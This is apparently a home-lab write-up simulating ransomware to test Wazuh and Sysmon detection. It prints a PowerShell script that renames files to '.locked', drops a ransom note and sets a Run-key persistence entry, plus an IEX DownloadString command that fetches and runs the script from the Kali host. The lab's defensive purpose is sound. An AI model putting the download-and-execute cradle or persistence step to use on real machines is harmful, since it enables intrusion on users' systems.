

# Ransomware Simulation

---

# 🔹 Step 1: Prepare the Kali VM (Attacker / Payload Host)

1. Open a terminal on Kali.
2. Create a folder for your simulated malware:

```bash
mkdir ~/privesc_sim
cd ~/privesc_sim
```

1. Create the PowerShell payload (`payload.ps1`) that simulates ransomware:

```powershell
# Save this as payload.ps1
$target = "$env:USERPROFILE\sukuna"
New-Item -ItemType Directory -Path $target -Force

# Create sample files
1..20 | ForEach-Object {
    Set-Content "$target\file$_.txt" "This is a test file $_"
}

# "Encrypt" files by renaming them
Get-ChildItem $target -Filter *.txt | ForEach-Object {
    Rename-Item $_ "$($_.FullName).locked"
}

# Drop a ransom note
$ransomNote = "$target\READ_ME.txt"
Set-Content $ransomNote "Your files have been encrypted. Pay 1 BTC."

# Add persistence
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
-Name "Updater" -Value "powershell.exe -File payload.ps1"

Create the PowerShell payload (payload.ps1) that simulates ransomware:
```



Start a web server to host it:

python3 -m http.server 80

• This makes your payload available at: `http://192.168.100.11/payload.ps1` 


---

# 🔹 Step 2: Prepare the Windows Victim VM

1. Make sure **Sysmon** and the **Wazuh agent** are installed and running.
2. Open PowerShell as a user (simulate the “victim” user).
3. Execute the payload (simulate clicking the phishing link):

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.11/payload.ps1')
```

- This will:
    - Create and rename files in `Documents\test_ransom`
    - Drop the ransom note
    - Set a registry run key for persistence

This is the powershell command used to download ‘payload.ps1’ we created in kali, which created a directory named ‘test_ransom’ in the Documents folder.


It created and renamed all the files in ‘sukuna’, and also left a ‘README’ file.


The README file is the ransom note.


---

# 🔹 Step 3: Observe in Wazuh (Ubuntu Server)

- Open the Wazuh dashboard.
- Check for alerts:
- Creation of the README ransom note.
- Take screenshots of:
    - File activity (from Windows VM)
    - Creating the ransom note.


---

Showing the Wazuh overview of the windows22vm.


showing the README file creation


Showing the logs, looking at the files being created/renamed


```

```

---

---

This, in total, shows that the VMs are all connected and can reach each other.

In Kali, we created ‘payload.ps1’, which is mimicking the ransomware malware.

In the Windows victim VM, we run the powershell IEX command, to download payload.ps1, from the Kali VM. 

Kali VM → Create payload.ps1 → host it in a python server with ‘python -m http.server 80’ → In Windows, run the IEX powershell command, to download and execute payload.ps1.

In Windows, you can see the newly created directory ‘sukuna’, and the 20 files it created, as well as the ransomnote (README).

Then, in Wazuh, pinpointing these events, showing when the README file was created.
